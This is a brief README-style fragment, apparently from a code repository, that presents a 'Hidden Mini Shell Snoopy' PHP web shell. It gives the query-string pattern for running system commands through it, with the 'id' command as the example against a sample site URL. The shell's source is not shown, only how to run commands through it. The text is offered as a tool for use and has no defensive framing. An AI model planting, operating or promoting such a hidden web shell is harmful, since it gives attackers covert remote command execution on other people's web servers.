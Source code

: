 # Hidden Mini Shell Snoopy
How to use access your shell: php?_=system&__=id<br>
Example: site.co.li/shell.php?_=system&__=id
